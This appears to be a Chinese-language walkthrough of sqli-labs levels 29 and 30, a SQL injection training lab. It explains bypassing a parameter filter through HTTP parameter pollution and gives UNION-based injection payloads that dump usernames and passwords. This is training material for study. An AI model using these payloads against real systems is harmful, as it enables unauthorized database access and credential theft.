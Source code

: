 这里整体的意思就是讲 语句 从&分割开来 然后再分割开的数组的前两位找值为id的然后如果找到了那么就截取这个数组的第4位到30位的长度.

然后交给 preg_match进行正则匹配.

`http://192.168.2.222/sqli-labs-master/Less-29/login.php?id=1&id=2`这里页面只显示了第二个参数的内容，如果对第一个参数注入，就直接会被拦截。这里对第二个参数注入。

知识点：[点击](https://www.cnblogs.com/lcamry/p/5762961.html)

payload: `http://192.168.2.222/sqli-labs-master/Less-29/login.php?id=1&id=-2' union select 1,group_concat(username,password),3 from users--+`

## ***Less-30***

index.php跟前几关一样直接注入。`http://192.168.2.222/sqli-labs-master/Less-30/?id=-1"  union select 1,2,3 --+`

login.php注入：

跟上关一样，闭合方式改成了双引号`"`

payload： `http://192.168.2.222/sqli-labs-master/Less-30/login.php?id=1&id=-1" union select 1,group_concat(username,password),3 from users--+`

